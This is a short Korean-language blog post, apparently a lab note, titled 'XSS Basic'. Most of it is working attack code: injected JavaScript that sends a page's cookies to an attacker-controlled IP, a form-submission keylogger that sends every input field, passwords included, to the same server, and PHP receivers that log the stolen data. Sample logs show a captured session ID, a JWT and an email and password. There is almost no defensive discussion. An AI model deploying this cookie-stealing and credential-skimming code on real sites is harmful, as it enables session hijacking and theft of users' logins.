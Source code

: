 ```yaml
---
layout: post
title: XSS Basic
description: About the XSS
date: 2024-11-13 02:35:00 +0900
categories: [Technical Labs]
tags: [XSS]
pin: false
math: false
mermaid: false
image:
  path: commons/xss/title.webp
---
```

<!-- categories: [Technical Concepts Summarized, Technical Labs, Technical Terms, Useful Apps To Help With Technology] -->

## Overview
XSS을 이용한 기본적인 Session Hijacking과 Key Logging을 구현해보고자 한다.

### Session Hijacking
JS code to inject into your website
```javascript
var cookieData = document.cookie; // 사용자의 쿠키를 가져온다.
var attackURL = "http://192.168.10.130/xss.php?cookie="; // xxx.php파일로 쿠키를 전달할 URL.
new Image().src = attackURL + cookieData; // 이미지의 경로로 URL을 전달하여 해당 URL를 실행시킨다.
```

Server code to receive the session
```php
$logFile = 'xss.log';
if (isset($_GET['cookie'])) {
    $cookieData = isset($_GET['cookie']) ? $_GET['cookie'] : 'No cookie';
    
    if (isset($_GET['cookie'])) {
        $logData = "[" . date('Y-m-d H:i:s') . "] Cookie: " . $cookieData . "\n";
    }
    file_put_contents($logFile, $logData, FILE_APPEND);
}
```

Saved files
```
[2024-11-12 09:53:02] Cookie: PHPSESSID=8l7socimgt2ef7ra8bbmhdn26f; jwt_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiMTUiLCJlbWFpbCI6IndoZ0BnbWFpbC5jb20iLCJleHAiOjE3MzE0Mzg0MDF9.IS8LaGsne0apR3JBms1chsH5UNYp6viKYts7ggPNNR8
```

<br>

### Key Logging
JS code to inject into your website
```javascript
document.addEventListener('DOMContentLoaded', function() { // 컨텐츠가 모두 로딩된 후 실행
  var form = document.querySelector('form');
  
  form.addEventListener('submit', function(event) { // 모든 form의 submit이 클릭될 때 실행
    // 모든 input 요소의 값을 수집합니다.
    var inputs = document.querySelectorAll('input');
    var data = [];

    inputs.forEach(function(input) {
        var id = input.id ? "id='" + input.id + "'" : "";
        var name = input.name ? "name='" + input.name + "'" : "";
        var value = input.value ? "value='" + encodeURIComponent(input.value) + "'" : "value='empty'";

        // id, name, value를 모두 포함한 데이터를 추가합니다.
        var combined = [id, name, value].filter(Boolean).join(", ");
        data.push(combined);
    });

    // 모든 입력 데이터를 연결하여 공격자 서버로 전송
    var attackURL = "http://192.168.10.130/xss.php?data=" + encodeURIComponent(data.join("; "));
    new Image().src = attackURL;
  });
});
```
- 모든 form의 모든 input을 로깅합니다.
- 공격자의 입장에서 저장된 값을 쉽게 파악할 수 있도록 input의 id와 name의 vaule를 함께 기록합니다.

Server code to receive the session
```php
$logFile = 'xss.log';
if (!empty($_GET)) {
  $logData = "[" . date('Y-m-d H:i:s') . "]\n";

  foreach ($_GET as $key => $value) {
      // 각 입력 필드의 키와 값을 로그에 저장
      $logData .= $key . " = " . $value . "\n";
  }

  $logData .= "---------------------------\n";

  // 로그 파일에 데이터 기록
  file_put_contents($logFile, $logData, FILE_APPEND);
}
?>
```

Saved files
```
data = id='id_email', name='email', value='whg%40gmail.com'; id='id_password', name='password', value='1234';
```
